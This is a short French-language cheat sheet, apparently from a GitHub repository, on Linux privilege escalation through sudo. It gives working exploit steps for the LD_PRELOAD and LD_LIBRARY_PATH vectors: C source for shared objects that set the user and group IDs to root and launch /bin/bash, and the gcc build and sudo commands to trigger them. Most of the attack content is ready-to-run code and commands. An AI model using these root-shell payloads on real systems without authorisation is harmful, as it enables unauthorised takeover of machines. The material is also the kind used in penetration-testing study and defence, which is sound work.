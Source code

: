 # SUDO

Lister tout les commandes que votre utilisateur peut exécuter à l'aide de `sudo`

```sh
sudo -l
```

Demarrer un programme avec un autre utilisateur:

```sh
sudo -u <username> <program>
```

## LD_PRELOAD

Les étapes de ce vecteur d’élévation de privilèges peuvent être résumées comme suit :

1. Recherchez LD_PRELOAD (avec l'option `env_keep`)
2. Écrivez un code C simple compilé sous forme de fichier d'objet de partage (extension .so)
3. Exécutez le programme avec les droits sudo et l'option LD_PRELOAD pointant vers notre fichier .so

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
void _init()
{
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}
```

Exploitation

```sh
gcc -fPIC -shared -nostartfiles -o shell.so shell.c 
```

```sh
sudo LD_PRELOAD=/FULL_PATH_TO/shell.so [PROGRAM_NAME]
```

## LD_LIBRARY_PATH

Les étapes de ce vecteur d’élévation de privilèges peuvent être résumées comme suit :

1. Exécutez `ldd` sur le fichier programme pour voir quelles bibliothèques partagées sont utilisées par le programme
2. Créez un objet partagé avec le même nom que l'une des bibliothèques répertoriées
3. Exécutez le programme à l'aide de sudo, tout en définissant la variable d'environnement `LD_LIBRARY_PATH` sur` /tmp` (où nous produisons l'objet partagé compilé)

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash");
}
```

Exploitation:

```sh
ldd [PROGRAM_NAME]
```

```sh
gcc -fPIC -shared -o /tmp/[LIBRARY_NAME] shell.c
```

```sh
sudo LD_LIBRARY_PATH=/tmp [PROGRAM_NAME]
```

